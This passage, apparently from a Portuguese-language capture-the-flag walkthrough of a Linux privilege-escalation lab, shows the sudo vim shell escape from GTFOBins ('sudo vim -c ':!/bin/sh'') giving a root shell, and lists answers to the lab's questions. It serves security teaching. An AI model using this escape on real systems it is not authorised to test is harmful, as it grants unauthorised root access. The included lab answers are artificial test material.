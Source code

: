Ao pesquisar por `vim` no site, encrontramos vários comandos para explorar a escalação de privilegios, dentre eles o comando `vim -c ':!/bin/sh'`:

![gtfobins](passo6_vim.png)

Vamos utilizar esse comando para explorar a falha.

```bash
user@debian:~$ sudo vim -c ':!/bin/sh'

sh-4.1# whoami
root
```

Agora vamos responder as perguntas desse passo:

1. How many programs is "user" allowed to run via sudo? 

    O comando `sudo -l` nos informa que o usuário `user` pode executar 11 programas com o sudo:
    >  11


2. One program on the list doesn't have a shell escape sequence on GTFOBins. Which is it?

    O programa que não possui uma sequência de escape no GTFOBins é o `apache2`:
    >  apache2

Agora vamos clicar no botão `Complete` para finalizar esse passo.

![passo6](passo6.png)

---